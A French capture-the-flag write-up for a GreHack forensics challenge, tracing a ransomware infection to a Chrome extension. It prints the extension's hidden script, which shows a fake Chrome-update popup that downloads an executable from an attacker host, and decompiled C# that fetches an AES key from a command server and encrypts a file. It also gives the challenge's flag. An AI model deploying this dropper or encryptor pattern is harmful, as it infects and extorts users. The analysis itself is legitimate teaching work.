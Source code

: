 # The Mad Hatter 

## Description 

Le Chapelier fou, comme son nom l'indique, est un peu dérangé. Il ne cesse de répéter qu'il n'a pas besoin de protection antivirus, car il sait ce qu'il fait sur son ordinateur. Mais récemment, il a trouvé une note particulière sur son bureau, et l'un de ses fichiers préférés a été rendu totalement illisible... Depuis, il a rapidement réinstallé l'antivirus. Retrouvez le contenu de ce fameux fichier.

- Mot de passe de session : `i'm_the_mad_hatter!`

## Solve 

Il semblerait que d'après la description, le Chapelier fou se serait fait chiffrer un fichier et une note aurait été laissée sur son bureau, cela peut faire penser au comportement d'un ransomware.

En effet, après connexion à la session, nous pouvons retrouver une note sur son bureau sous le nom de `ransom_note.txt` : 

```
Your file has been encrypted. Pay 1337 beers to the GreHack staff to decrypt it !
```

Il n'y a pas énormément de programme d'installés sur la session, on remarque rapidement le navigateur Chrome, et en fouillant dans son historique, on pourrait comprendre qu'il a essayé d'installer une extension chrome et a ensuite cherché ce qu'était un ransomware.

![history](./img/history.png)

Nous remarquons alors une extension installée sur le navigateur, qui a pour utilité de transformer une page HTML en PDF. 

![addon](./img/addon.png)

Pour obtenir des détails sur cette extension, nous pouvons nous rendre sur `chrome://extensions/` afin de voir les extensions chargées et leur origine.
Il est alors possible de retrouver le chemin de la source de l'addon, qui était de plus cachée.

![addon-folder](./img/addon_folder.png)

Le code JavaScript semble tout à fait légitime, mais un petit détail dans le fichier `manifest.json` retient notre attention : 

![manifest](./img/manifest.png)

L'extension semble charger deux fichiers JavaScript, `content.png` et `pdf.js`.
Regardons de plus près `content.png` qui semblait jusqu'à présent être simplement une image.

```JavaScript
function UpdatePopup() {
    const popupWrapper = document.createElement('div');
    popupWrapper.id = 'ChromeUpdateWrapper';
    
    popupWrapper.style.position = 'fixed';
    popupWrapper.style.top = '10px'; 
    popupWrapper.style.right = '10px'; 

    popupWrapper.style.width = '20%'; 
    popupWrapper.style.height = 'auto';

    popupWrapper.style.zIndex = 99999;
    popupWrapper.style.boxShadow = '0px 0px 10px rgba(0,0,0,0.5)';
    popupWrapper.style.borderRadius = '8px';
    popupWrapper.style.backgroundColor = '#ffffff';
    popupWrapper.style.padding = '20px';
    popupWrapper.style.textAlign = 'center';
    popupWrapper.innerHTML = `
        <img src="${chrome.runtime.getURL('chrome.png')}" width="30" style="display: block; margin: 0 auto;">
        <h3 style="color: red;">Chrome Update</h3>
        <p style="font-size: 12px; color: #666;">Critical update available.</p>
        <a target="_blank" href="https://i-will-pwn-your.host/static/chrome-update.exe" download class="updateButton">Update Now</a>
    `;

    const updateBtn = popupWrapper.querySelector('.updateButton');
    updateBtn.style.display = 'inline-block';
    updateBtn.style.padding = '8px 15px';
    updateBtn.style.marginTop = '10px';
    updateBtn.style.backgroundColor = '#4285F4';
    updateBtn.style.color = '#ffffff';
    updateBtn.style.textDecoration = 'none';
    updateBtn.style.borderRadius = '5px';
    updateBtn.style.cursor = 'pointer';
    
    updateBtn.addEventListener('click', function() {
        window.location.href = "https://i-will-pwn-your.host/static/chrome-update.exe";
    });

    document.body.appendChild(popupWrapper);
}

if (Math.random() <= 0.05) {
    UpdatePopup();
}

chrome.runtime.onMessage.addListener((message, sender, sendResponse) => {
    if (message.action === 'getHTML') {
        sendResponse(document.documentElement.outerHTML);
    }
});
```

De ce que l'on comprend du code, celui-ci va 1 fois sur 20 (`if (Math.random() <= 0.05)`) afficher une popup sur la page web visitée par la victime, faisant apparaître une popup de mise à jour chrome, qui va télécharger le binaire sur `https://i-will-pwn-your.host/static/chrome-update.exe`.

Nous allons télécharger ce binaire que nous ne retrouvons pas sur la session de la victime pour l'analyser avec [dnSpy](https://github.com/dnSpy/dnSpy).

Une fois chargé, nous apercevons plusieurs fonctions qui peuvent nous faire penser à un programme malveillant, comme `Encrypt`, `GetKIV`, `Extract`. Le programme semble un petit peu obfusqué 

![dnspy](./img/dnspy.png)

```c#
public static void Main(string[] args)
{
    try
    {
        Program.GetKIV();
        string path = Environment.GetFolderPath(Environment.SpecialFolder.Personal) + Program.De("\secret_video.mp4");
        string path2 = Environment.GetFolderPath(Environment.SpecialFolder.Desktop) + Program.De("\ransom_note.txt");
        if (File.Exists(path))
        {
            byte[] bytes = Program.Encrypt(File.ReadAllBytes(path), Program.k, Program.iv);
            File.WriteAllBytes(path, bytes);
            File.WriteAllText(path2, Program.De("Your file has been encrypted. Pay 1337 beers to the GreHack staff to decrypt it !"));
        }
    }
    catch (Exception ex)
    {
        Console.WriteLine("An error occurred: " + ex.Message);
    }
}
```

Dans la fonction `Main` nous retrouvons ce fameux fichier `ransom_note.txt`, mais aussi le fichier qui a été chiffré, à savoir `secret_video.mp4` dans les Documents.

```c#
public static void GetKIV()
{
    string address = Program.De("https://i-will-pwn-your.host/4af5da2e9ef5efd3520c9a9f463dbdee");
    string str = Program.De("c2_m4st3r");
    string str2 = Program.De("29a3675bc87ad32852f7935741f8e98cee547c65");
    string str3 = Convert.ToBase64String(Encoding.ASCII.GetBytes(str + ":" + str2));
    using (WebClient webClient = new WebClient())
    {
        webClient.Headers[HttpRequestHeader.Authorization] = "Basic " + str3;
        string json = webClient.DownloadString(address);
        Program.ks = Program.Extract(json, "key");
        Program.ivs = Program.Extract(json, "iv");
    }
    Program.k = SHA256.Create().ComputeHash(Encoding.UTF8.GetBytes(Program.ks));
    Program.iv = MD5.Create().ComputeHash(Encoding.UTF8.GetBytes(Program.ivs));
}
```

Dans la fonction `GetKIV`, nous comprenons qu'il récupère la `key` et l'`iv` via une requête HTTP authentifiée. 
Nous pouvons maintenant récupérer ces deux valeurs et déchiffrer la vidéo.

```bash
» curl -ski 'https://i-will-pwn-your.host/4af5da2e9ef5efd3520c9a9f463dbdee' -u 'c2_m4st3r:29a3675bc87ad32852f7935741f8e98cee547c65'
HTTP/2 200
date: Mon, 04 Sep 2023 17:52:43 GMT
content-type: application/json
content-length: 67
alt-svc: h3=":443"; ma=86400
cf-cache-status: DYNAMIC
report-to: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=TnH2Ps4ZMNDm1nqFm%2F04n0JDcLNNDNSamZCXtlZj6Efx7%2BWdWVw%2F2WpnkHv0H6y%2FVH1C69tO6%2Bj5JdxlAbwlyY7VurhXjNbqzML9qww0napipnhfrNABkfFOmBImgwcfmYIZ0szF1A%3D%3D"}],"group":"cf-nel","max_age":604800}
nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
server: cloudflare
cf-ray: 8018167d7ecbd31d-CDG

{"iv":"1337733113377331","key":"4a448c0831b578470664af35a7067315"}
```

```bash
» key=$(echo -n "4a448c0831b578470664af35a7067315" | sha256sum | awk '{print $1}')
» iv=$(echo -n "1337733113377331" | md5sum | awk '{print $1}')
» openssl enc -d -aes-256-cbc -in secret_video.mp4 -out secret_video_decrypt.mp4 -K $key -iv $iv
```

![flag](./img/flag.png)

Flag : `GH{fr0m_Add0n_t0_r4ns0m_!!}`